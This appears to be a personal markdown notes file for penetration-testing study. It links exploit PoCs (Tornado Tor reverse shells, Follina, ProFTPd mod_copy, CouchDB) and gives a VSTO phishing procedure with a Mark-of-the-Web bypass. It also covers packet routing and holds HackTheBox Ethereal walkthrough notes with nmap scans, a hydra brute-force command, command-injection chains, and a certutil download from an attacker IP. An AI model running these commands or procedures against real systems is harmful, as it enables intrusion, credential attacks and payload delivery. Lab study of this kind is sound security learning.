




# For random tools/ pocs

## tornado 

https://www.kitploit.com/2022/05/tornado-anonymously-reverse-shell-over.html?m=1

Tornado is implements tor network with metasploit-framework tool and msfvenom module, you can easily create hidden services for your localhost .onion domain without portforwarding. If you have experience different remote administration tools, probably you know you need forward port with virtual private network or ngrok but in this sense with tornado, the tor network offers the possibility of making services in a machine accessible as hidden services without portforwarding, by taking advantage of the anonymity it offers and thereby preventing the real location of the machine from being exposed.

tornado can do

create hidden service with tor network
generate cross platform msfvenom payload with fully undetectable shellcode execution not shikata_ga_nai things
hidden service becomes available outside tor network and ready to reverse shell connection

https://github.com/samet-g/tornado/blob/main/tornado/core/undetectable.py

The undetectable payload used was xor and uptick

## Follina cve 2022

https://github.com/chvancooten/follina.py

Dont have word to verify however it is opening up troubleshooting wizrd.


## CVE 3025 3306

This exploit lets an attacker to write or read a PHP file present in ProFTPd server.
The mod_copy module in ProFTPD 1.3.5 allows remote attackers to read and write to
arbitrary files via the site cpfr and site cpto commands


https://github.com/t0kx/exploit-CVE-2015-3306

## POC of Windows Update Orchestrator Service Elevation of Privilege
Vulnerability (CVE-2020-1313)

doesnt work - access is denied error

https://github.com/irsl/CVE-2020-1313

## Analysis of Vulnerability in Apache CouchDB
(CVE-2022-24706)

Apache CouchDB < 3.2.2

https://github.com/XmasSnowISBACK/CVE-2022-24706

## Analysis of Visual Studio Tools for Office(VSTO) Vulnerability

not an exploit but a methodology

```
Exploit Procedure
a. Open the .sln file of the project and open the properties of the project.
b. In the Publish option (Figure 1), write the name of the folder where you want to deploy the
project and in the installation folder url, write the address where the entire project will be
hosted.
c. In the signing tab (Figure 2), add the certificate to bypass the mitigation.
d. In the POC folder, replace the decoy.docx with your story document and save as a
decoy.docx.
e. The C# code present inside ThisDocument.cs, write a payload in the form of hex string
and build the project.
f. Decoy.docx present inside the installation folder will be converted to an iso file to bypass
Mark of the Web.
```

# packet traveling series

https://www.youtube.com/watch?v=rYodcvhh7b8

arp table - maps id to mac - layer 3
mac address - maps switchport to mac - layer 2
routing table - ip to interfaces 

routing table populated prior to traffic flow based on the ip address of interfaces. 

http://www.practicalnetworking.net/series/packet-traveling/packet-traveling/

packet travelling from one host to another



when the host send an arp request to learn the default gateway mac address then the switch learns the mac of aa and updates its mac table
ARP on a switch is flooededto all connected ports of the switch. the hosts whose request is for would reply.

router when recieves the ARP request from switch would update its ARP table andd would map host ip to it hostname and would generate an ARP response

which then switch forward to the host and the host updates its arp table

layer 3 ip address is to get the data from end to end while l2 header is to send the data in the same network to the gateway



on recieving the packet the router would strip the packet of l2 header



when the packet reaches the router and sends an arp request for the destination host ip



the way back would be easier as the tablles are already generated

host A first strips the l2 layer then the l3 layer and then recieves the data

data is encapsulated into l3 is first then l2 header is placed

other courses

http://www.practicalnetworking.net/

## Ethereal
https://0xdf.gitlab.io/2019/03/09/htb-ethereal.html

`nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.106`

`nmap -sC -sV -p 21,80,8080 -oA nmap/scripts 10.10.10.106`

`nmap -sU -p- --min-rate 10000 -oA nmap/alludp 10.10.10.106`

### ftp access 

`ftp 10.10.10.106`

anonymous login check

`anonymous`

`dir`
`bin` - to convert to binary files 
and then using gets

`unzip DISK1.zip`

`unzip FDISK.zip`

`file *DISK{,1,2}`

`mount -o loop FDISK /mnt/fdisk`

`tree /mnt/fdisk`

## Password Box - software 

`apt install libncurses6:i386 bwbasic`

to install password box

./pbox --dump

cat usernames
cat passwords

http site

tcp 8080

find hostname - ethereal.htb:8080

http://10.10.10.106:8080

/etc/hosts file name 

http://ethereal.htb:8080

## using hydra

`hydra -L usernames -P passwords -s 8080 -f ethereal.htb http-get /`

`http://127.0.0.1`

`tcpdump -i tun0 icmp`

## Shell as Alan

for RCE discovery it is essential to find out ot which combination of commands work and then find the tcpdump

command1 && command2 - meaning run one if second succeds
command1 || command2 - means if 1 fails
command1 & command2 - meaning run both

## Powershell

So if I enter & dir || ping 10.10.14.14, I don’t get pings in tcpdump, because the dir succeeds and ends the or. If I change that to & dir && ping 10.10.14.14, I do get pings.

So now I can see if I can run PowerShell. I’ll enter & powershell -c echo test || ping 10.10.14.14. Unfortunately, I get pings. So PowerShell is not available to me.

## certutil file transfer

& certutil -urlcache -split -f http://10.10.14.14/test.txt \windows\temp\test.txt|| ping 10.10.14.14

## nslookup file transfer

using dns exfil to give interaction with the system
using dns for file transfer

creating a python based shell transfer code dns sniffer-

https://0xdf.gitlab.io/2019/03/09/htb-ethereal-shell.html

`nsloopup`

`netsh advfirewall` to dump firewall rules on windows

the other way to find is using wfuzz and fuff and quite command

`rlwrap` for history

`dir /a` for hidden folders

`icacls` to give permissions

# Easiest way for exfilteration of data

we can base64 encode data and then decode using base64 -d

# poison lnk file

select properties of the windows vm -> we can edit the target of the shortcut

`cmd /c openssl`


